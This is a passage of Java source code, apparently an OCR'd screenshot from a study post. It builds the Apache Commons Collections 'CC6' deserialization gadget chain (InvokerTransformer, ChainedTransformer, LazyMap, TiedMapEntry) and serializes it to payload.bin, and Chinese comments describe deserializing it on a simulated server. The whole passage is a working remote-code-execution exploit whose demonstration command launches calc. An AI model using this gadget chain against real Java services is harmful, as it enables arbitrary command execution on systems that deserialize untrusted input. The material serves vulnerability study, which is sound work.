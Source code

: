 ```java
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},new Object[]{null, null}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map<Object, Object> lazymap = LazyMap.decorate(map, chainedTransformer);

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazymap, "aaa");

        HashMap<Object, Object> map2 = new HashMap<>();
        map2.put(tiedMapEntry, "bbb");
        lazymap.remove("aaa");

        Class c = LazyMap.class;
        Field factoryField = c.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazymap, chainedTransformer);

        //payload序列化写入文件，模拟网络传输
        FileOutputStream f = new FileOutputStream("payload.bin");
        ObjectOutputStream fout = new ObjectOutputStream(f);
        fout.writeObject(map2);

        //2.服务端读取文件，反序列化，模拟网络传输
        FileInputStream fi = new FileInputStream("payload.bin");
        ObjectInputStream fin = new ObjectInputStream(fi);
        //服务端反序列化
        fin.readObject();
    }
}
```